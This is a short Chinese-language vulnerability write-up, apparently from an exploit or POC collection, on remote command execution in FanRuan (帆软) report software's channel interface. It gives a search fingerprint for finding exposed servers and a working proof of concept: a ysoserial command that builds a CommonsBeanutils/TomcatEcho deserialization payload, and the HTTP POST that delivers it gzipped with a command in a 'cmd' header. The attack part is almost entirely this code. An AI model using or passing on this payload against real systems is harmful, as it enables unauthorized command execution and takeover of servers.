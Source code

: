 # 帆软报表 channel 远程命令执行漏洞

## 漏洞描述

帆软报表 channel 接口存在远程命令执行漏洞, 攻击者通过漏洞可以获取服务器权限，攻击服务器

## 漏洞影响

帆软报表</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Powered by 帆软"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1685439448593-9afc647d-ba30-452c-928e-9a6a49c04edd.png)

验证POC

```php
java -jar ysuserial-1.5-su18-all.jar -g CommonsBeanutils1183NOCC -p 'EX-TomcatEcho' -ch "cmd" > fine10.bin

POST /webroot/decision/remote/design/channel HTTP/1.1
Content-Type: application/json
Host: 
cmd: id
Connection: close

{{gzip(file(fine10.bin))}}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1685439538732-8dee3451-21ea-427e-9f75-6ba5c29e3567.png)